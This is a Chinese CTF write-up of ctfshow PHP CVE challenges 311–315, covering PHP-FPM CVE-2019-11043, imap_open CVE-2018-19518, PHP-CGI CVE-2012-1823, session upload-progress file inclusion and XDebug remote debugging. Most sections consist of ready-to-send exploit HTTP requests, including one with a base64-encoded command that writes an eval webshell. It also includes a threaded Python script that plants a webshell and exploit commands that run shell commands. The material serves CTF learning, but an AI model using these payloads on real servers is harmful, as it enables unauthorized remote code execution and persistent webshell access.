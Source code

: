```yaml
---
title: ctfshow-phpcve
date: 2021-010-07 12:40:30
author: Na0H
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow phpcve
description:  ctfshow phpcve


---
```


<!-- more -->

打算把单项都补完，整完这个还差个java--

## 311：CVE-2019-11043

[PHP-fpm 远程代码执行漏洞(CVE-2019-11043)分析 (seebug.org)](https://paper.seebug.org/1063/)

github上存在公开的exp：[neex/phuip-fpizdam: Exploit for CVE-2019-11043 ](https://github.com/neex/phuip-fpizdam)
需要go环境：[Downloads - The Go Programming Language](https://golang.google.cn/dl/)

go环境安装完成后，运行下面语句

```
go get github.com/neex/phuip-fpizdam
```

然后直接用就好：

```
phuip-fpizdam url/index.php
```

![](https://i.loli.net/2021/10/07/R8WXriTC2N7xKFh.png)

然后访问`url/?a=<your command>`执行命令即可（不行就多试几次）

![](https://i.loli.net/2021/10/07/XM6T2FfbP3kdABD.png)



## 312：CVE-2018-19518

[CVE-2018-19518：PHP imap_open函数任意命令执行漏洞复现 - FreeBuf](https://www.freebuf.com/vuls/192712.html)

bp发送如下数据包即可成功执行命令：
`echo '<?php eval($_POST[1]);' > /var/www/html/a.php`

poc：

```http
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycgPiAvdmFyL3d3dy9odG1sL2EucGhw|base64%09-d|sh}a&username=222&password=333
```

记得改Host
中间base64的部分就是要执行的命令，这里我是写了一个马到a.php里

![](https://i.loli.net/2021/10/07/eZDUJH1M2mQq7kt.png)

执行命令

![](https://i.loli.net/2021/10/07/vAXpzr89GOBe6VF.png)



## 313：CVE-2012-1823

[PHP-CGI远程代码执行漏洞（CVE-2012-1823）分析 (seebug.org)](https://paper.seebug.org/297/)

> 漏洞利用：
>
>  `-s`直接显示源码
>
> `-d`指定`auto_prepend_file`来制造任意文件包含漏洞

访问：

```
index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
```

抓包post:

```
<?php echo shell_exec('ls');?>
```

或者直接用poc也行：（记得改Host）

```html
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

![](https://i.loli.net/2021/10/07/7IQNtoFKYGSXevW.png)



## 314：session_upload+文件包含

> hint：严格说算不上cve

[利用session.upload_progress进行文件包含和反序列化渗透 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/202819.html)

```php
<?php

error_reporting(0);

highlight_file(__FILE__);

//phpinfo
$file = $_GET['f'];

if(!preg_match('/\:/',$file)){
    include($file);
}
```

接触很多次了，直接放脚本（写了个马在a.php）

```python
import requests
import io
import threading

url = "http://fe15f2b4-caa8-4685-8872-33b3e7ebef0b.challenge.ctf.show:8080/"

sessionid = "na0h"

def write(session):
    filebytes = io.BytesIO(b'a' * 1024 * 50)
    while True:
        resp = session.post(url,
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[1]);?>'},
                            files={'file': ('na0h.png', filebytes)},
                            cookies={'PHPSESSID': sessionid})
        print("[*]writing...")


def read(session):
    while True:
        resp = session.post(url+'?f=/tmp/sess_'+sessionid,
                            data={'1': '''file_put_contents('a.php','<?php eval($_POST[1]);?>');'''},
                            cookies={'PHPSESSID': sessionid})
        if 'na0h.png' or 'offset: 1' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[*]status:"+str(resp.status_code))

if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(5):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(5):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```

![](https://i.loli.net/2021/10/07/Iqo6H8SGPTCl1gF.png)



## 315：XDebug 远程调试漏洞

> hint：debug开启，端口9000

如题：[XDebug 远程调试漏洞 (代码执行)「Vulhub 文档」](https://www.wangan.com/docs/399)

exp：[vulhub/php/xdebug-rce (github.com)](https://github.com/vulhub/vulhub/tree/master/php/xdebug-rce)

把[exp](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py)拷下来，跑一下：

> **重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

```
# 要求用python3并安装requests库(得有公网服务器)
python3 exp.py -t url/index.php -c 'shell_exec('id');'
```

云服务器记得去改安全组，把9000端口开了即可

![](https://i.loli.net/2021/10/07/C2GHc86WsEkLSU5.png)